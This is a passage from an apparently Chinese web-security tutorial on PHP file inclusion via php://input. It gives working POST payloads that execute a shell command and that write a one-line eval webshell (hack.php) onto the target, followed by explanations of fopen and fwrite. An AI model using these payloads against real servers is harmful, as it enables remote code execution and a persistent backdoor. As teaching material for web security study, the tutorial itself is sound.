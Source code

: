 后面的注释的php代码需要通过post传递。

{% hint style="info" %}
当出现file\_get\_contents函数时，我们就要想到用php://input了
{% endhint %}

#### ②执行命令

```url
http://******.php/?file=php://input
/*[post]
<?php system('ls');?>*/
```

#### ③写入木马

```url
http://******.php/?file=php://input
/*[post]
<?php fputs(fopen('hack.php','w'),'<?php @eval($_POST['123456'])?>');?>*/
```

解释一下上面的php语句吧。可能因为之前没有见到过可能不太理解。这里了解两个函数之后就容易理解了，就是后面的木马代码是写入到前面fopen打开的文件里面的。

> fputs（）/fwrite()：写入文件
>
> 并且是把data写入到scream里面。
>
> ```php
> fwrite(resource $stream, string $data, ?int $length = null): int|false
> ```

> fopen():打开文件或者url。
>
> filename可以是文件，可以是url。
>
> ```php
> fopen(string $filename, string $mode,bool $use_include_path = false,?resource $context = null
> ): resource|false
> ```
>
> 并且模式和c语言打开文件一样这里贴张图大家看吧

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>